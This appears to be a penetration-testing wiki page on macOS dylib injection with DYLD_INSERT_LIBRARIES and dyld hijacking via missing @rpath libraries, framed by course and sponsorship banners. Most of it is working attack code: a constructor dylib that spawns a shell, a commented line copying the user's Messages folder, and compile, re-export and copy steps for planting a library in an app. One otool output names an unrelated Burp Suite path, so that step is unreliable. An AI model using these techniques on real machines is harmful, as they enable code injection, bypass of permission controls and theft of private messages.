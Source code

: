 # macOS Dyld Hijacking & DYLD\_INSERT\_LIBRARIES

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## DYLD\_INSERT\_LIBRARIES Basic example

**Library to inject** to execute a shell:

```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
    printf("[+] dylib injected in %s\n", argv[0]);
    execv("/bin/bash", 0);
    //system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```

Binary to attack:

```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
    printf("Hello, World!\n");
    return 0;
}
```

Injection:

```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```

## Dyld Hijacking Example

The targeted vulnerable binary is `/Applications/VulnDyld.app/Contents/Resources/lib/binary`.

{% tabs %}
{% tab title="entitlements" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>
{% endtab %}

{% tab title="LC_RPATH" %}
{% code overflow="wrap" %}
```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/. (offset 12)
--
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/../lib2 (offset 12)
```
{% endcode %}
{% endtab %}

{% tab title="@rpath" %}
{% code overflow="wrap" %}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
         name @rpath/lib.dylib (offset 24)
   time stamp 2 Thu Jan  1 01:00:02 1970
      current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{% endcode %}
{% endtab %}
{% endtabs %}

With the previous info we know that it's **not checking the signature of the loaded libraries** and it's **trying to load a library from**:

* `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
* `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

However, the first one doesn't exist:

```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```

So, it's possible to hijack it! Create a library that **executes some arbitrary code and exports the same functionalities** as the legit library by reexporting it. And remember to compile it with the expected versions:

{% code title="lib.m" %}
```objectivec
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
    NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
{% endcode %}

Compile it:

{% code overflow="wrap" %}
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
{% endcode %}

The reexport path created in the library is relative to the loader, lets change it for an absolute path to the library to export:

{% code overflow="wrap" %}
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
         cmd LC_REEXPORT_DYLIB
         cmdsize 48
         name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
          cmd LC_REEXPORT_DYLIB
      cmdsize 128
         name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
{% endcode %}

Finally just copy it to the **hijacked location**:

{% code overflow="wrap" %}
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
{% endcode %}

And **execute** the binary and check the **library was loaded**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

{% hint style="info" %}
A nice writeup about how to abuse this vulnerability to abuse the camera permissions of telegram can be found in [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)
{% endhint %}

## Bigger Scale

If you are planing on trying to inject libraries in unexpected binaries you could check the event messages to find out when the library is loaded inside a process (in this case remove the printf and the `/bin/bash` execution).

```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
